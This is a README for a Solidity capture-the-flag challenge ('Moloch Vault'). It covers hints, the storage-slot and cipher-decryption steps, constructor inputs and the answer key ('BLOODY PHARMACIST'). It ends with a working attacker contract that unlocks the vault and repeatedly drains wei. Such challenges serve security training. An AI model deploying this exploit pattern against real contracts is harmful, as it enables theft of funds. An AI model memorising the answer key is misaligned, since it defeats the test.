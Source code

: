 ## Values/ Impact of Challenge
 - Challenge assumes a real-life hacking scenerio hence involving some OSINT.
 - Demands u see what code does not what a dev says it does. Hence arbitrary variable names.
 - Ability to deal with customized/personal code not just DEFI, ERC et al.
 - Demands indepth understanding of EVM storage layout.
 - Hacker deals with code. code is code irrespective whats coded.
 
## Hint/Info to participant
- Link to [Moloch's tweet](https://twitter.com/Kodak_Rome/status/1624372583310262279?t=_iNw3oWhcMmISeECaDBTTA&s=19) (Preimage found in updated source code).
- Moloch is the 3rd Person in `Cabal[] private cabals;`
- Failure to provide deep detail of steps taken is regarded as failure.

## Expectation from participant
- Focus and not distracted by scattered code, arbitrary varible terms.
- Understand & dissasemble contract storage & get Moloch-encrypted passss using ethers.js
- Decrypt the retrieved value using [Moloch-Algorithm](https://twitter.com/Kodak_Rome/status/1624372583310262279?t=_iNw3oWhcMmISeECaDBTTA&s=19)
- Pass the decrypted value into `uhER778()` while solving some challenges as well. Setting  `realHacker[msg.sender] = true`
- Withdrawing 1 wei via `sendGrant()` (multiple Times)
- **Challenge Passed**
## Details required from participants POC
- Detailed formula for finding slot of dynamic struct => `uint(keccak256(abi.encodePacked(slot))) + (index * elementsize);`
- state the derived string => "ZJQQBW*NFCPKCAKQR"
- Details of decrypting Moloch-algorithm => consonants: 2steps back, vowels: 2steps foward.
- state decrypted preimage => "BLOODY PHARMACIST"
- Expliain bypass `keccak256(abi.encodepacked()`.
- Stated Attacker address expected to reflect true from `mapping(address => bool) public realHacker;`

## Personal Appeal/request
1. Being aware of the current situation in which challenge contracts are nolonger deployed to goerli due to some potential malpractice.
I'll like to request that this be revoked for this challenge due to the following reasons:

- The challenge is heavily based on extracting data 4rm live storage using ethers.js. Hence should be deployed
- If deployed, *Unity* of solution/extracted answer/string value is achieved. Hence scoring made easy.
- The nature of this challenge isnt revealing via transaction scan as most of its functions are not even required to hack the contract, also doesnt require `selfdestruct()` which can be seen on etherscan. (If theres a way im not aware of pls notify me via discord).
- Infact even if a whole attacker contract can be seen via etherscan, participant still has to provide details of: algorithm decryption, formula for extracting data in `struct`, `keccak256(abi.encodepacked()` manipulations in POC as stated above.
2. I wouldnt mind helping with deployment.

## Constructor inputs
```
{
molochPass: "BLOODY PHARMACIST",
_B: ["WHO DO YOU", "SERVE?"],
A: ["0x5B38Da6a701c568545dCfcB03FcB875f56beddC4","0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2","0x4B20993Bc481177ec7E8f571ceCaE8A9e22C02db"]
_PASSSS: ["KCLEQ","BGTGJQNGP","ZJQQBW*NFCPKCAKQR"]
}
```

## Expected answer (using above inputs)
- **BLOODY PHARMACIST**

## Coded exploit
```
contract Attacker {
    MOLOCH_VAULT vault;
    uint public f;

    constructor(address payable a) payable{
        vault = MOLOCH_VAULT(a);
    }
    /*@attack is called with the following payload;
    ["BLOODY PHARMACIST","WHO DO YO", "USERVE?"]
    */
    function attack(string[3] memory _ansa) public payable returns(bool success) {
        vault.uhER778(_ansa);
        success = true;
    }

    // Now the withdraw() can be called multiple times to keep extracting 1wei
    function withdraw() public {
        vault.sendGrant(payable(address(this)));
    }

    receive() external payable {
        if (f < 1) {
            (bool sent,) = msg.sender.call{value: 2 wei}("");
            require(sent, "unsuccessful");
        }
        f++;
    }
}
```

Inspiration. [^1]
[^1]: So much inspiration gotten from [Molochdao website](https://molochdao.com)
